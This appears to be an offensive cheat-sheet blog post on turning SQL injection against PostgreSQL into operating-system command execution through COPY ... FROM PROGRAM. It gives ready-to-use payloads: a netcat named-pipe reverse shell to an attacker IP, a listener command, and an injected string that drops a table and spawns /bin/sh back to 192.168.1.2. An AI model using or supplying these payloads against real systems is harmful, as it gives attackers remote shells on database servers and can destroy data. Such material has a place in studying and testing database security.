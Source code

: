 ```yaml
---
layout: post
title: "SQLi: PostgreSQL"
date: 2023-06-21
categories:
  - CHEATSHEET
tags:
  - SQLi
---
```



To execute system commands on Linux or Windows using PostgreSQL, you can leverage the `PROGRAM` parameter in conjunction with the `COPY` command. 


### Command Execution Overview

The process starts with the creation of a table designed to store the output of the commands you execute. This can be a temporary or permanent table based on your requirements. Here, we'll create a permanent table called `shell`.  

<br>
#### Step 1: Create a Table to Capture Output

First, create a table where the output of the executed commands will be stored. This table will have a single column to hold text data.

```sql
CREATE TABLE shell(output text);
```
<br>
#### Step 2: Using the PROGRAM Parameter to Execute Commands  


With the table ready, you can now use the `PROGRAM` parameter within the `COPY` command to execute system-level commands. This example demonstrates how to set up a reverse shell, which allows you to execute commands remotely on the server where the PostgreSQL database is running.  


```sql
COPY shell FROM PROGRAM 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f';
```
<br>
Here's a breakdown of the command sequence:

* `rm /tmp/f;`: Removes any existing file named `/tmp/f`.
* `mkfifo /tmp/f;`: Creates a named pipe `/tmp/f`. Named pipes allow for temporary file-like communication between processes.
* `cat /tmp/f | /bin/sh -i 2>&1`: This part sets up a reverse shell. It reads from the named pipe, executes commands using the shell (`/bin/sh -i`), and redirects both stdout and stderr to the pipe.
* `nc 10.0.0.1 1234 > /tmp/f`: This uses `netcat` (nc) to connect back to the attacker's machine listening on IP `10.0.0.1` and port `1234`. Output from the shell (connected via `nc`) is redirected back into `/tmp/f`, thus maintaining a continuous shell session.

<br>

#### Step 3: Set Up a Listener on the Attacking Machine  


Before running the `COPY` command, ensure that you've set up a listener on the attacking machine to accept the incoming connection from the reverse shell:

```shell
nc -lvp 1234
```

<br>
#### Step4: Exploit  


```sql
id=';DROP TABLE IF EXISTS commandexec; CREATE TABLE commandexec(data text);COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -e /bin/sh 192.168.1.2 1234';--
```
<br><br>
> ***PostgreSQL Schema Tip:***
> 
>    ```sql
>    SELECT table_schema, table_name FROM information_schema.tables
>    WHERE table_schema NOT IN ('information_schema', 'pg_catalog');
>    ```

<br>

#### Resources:
* [https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)

